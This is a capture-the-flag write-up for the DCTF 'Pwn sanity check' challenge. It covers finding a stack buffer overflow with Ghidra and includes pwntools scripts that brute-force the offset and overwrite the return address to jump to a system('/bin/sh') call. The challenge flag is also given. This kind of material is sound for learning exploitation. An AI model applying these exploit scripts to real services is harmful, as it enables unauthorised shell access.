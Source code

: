 ```yaml
---
title: Pwn sanity check
layout: post
author: v1per
date: 2021-05-17 18:53:00 +0530
type: Pwn
difficulty: easy
prompt: This should take about 1337 seconds to solve.nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480
---
```


First, I used the file command on the **pwn_sanity_check** file. This is the output I got:

![](/images/v1per/dctfpsc1.png)

So, we know that it's a 64-bit LSB executable. Next, I opened the binary file usng **Ghidra**.
The main function looked like this:

![](/images/v1per/dctfpsc2.png)

I opened the **vuln()** function, and found this:

![](/images/v1per/dctfpsc3.png)

Here, I saw that the input is being taken using 'fgets' and stored in 'local_48'. Seeing this, the first thought which came to my mind was that this could be a buffer overflow challenge. In the next line I saw that if the value of 'local_c' is equal to '-0x21523f22', it prints out a text and calls the 'shell()' function. Let's open that:

![](/images/v1per/dctfpsc4.png)

It prints out that it is spawing the '/bin/sh process', but it doesn't really do anything except printing that. So, I guess that's a deadend.

Looking around further, I found a 'win()' function which looked interesting:

![](/images/v1per/dctfpsc5.png)

This function takes two parameters as input and compares their values and actually spawns a shell. Now, here I thought - what if we could bypass the if conditions and directly go to the 'system("/bin/sh");' line?  
I took note of the address of the line just before the line in which the shell was being spawned: **0x004006d6**

![](/images/v1per/dctfpsc6.png)

Now, we need to find the offset at which our control enters the win function, I used this python script to find it:

```py
from pwn import *

host='dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io'
port=7480

n=0
while(True):
	error=False
	payload=b'A'*n+p64(0x004006d6)

	r=remote(host,port)
	r.sendline(payload)
	r.recvline()
	r.recvline()

	try:
		s=r.recvline()
	except:
		error=True

	if error:
		print(n,'Trying...')
	else:
		print(n,'is the offset')
		break
	n+=1
```

From this script, the offset came out to be **72**. Now, it's time to finally find our flag.
I ran this script:

```py
from pwn import *

host='dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io'
port=7480

payload=b'A'*72+p64(0x004006d6)

r=remote(host,port)
r.sendline(payload)
r.interactive()
```

And, yay! I got the shell.
I typed in 'ls' and saw that there's a flag.txt file in there, so i did a 'cat flag.txt' and got the flag!  
```dctf{Ju5t_m0v3_0n}```

![](/images/v1per/dctfpsc7.png)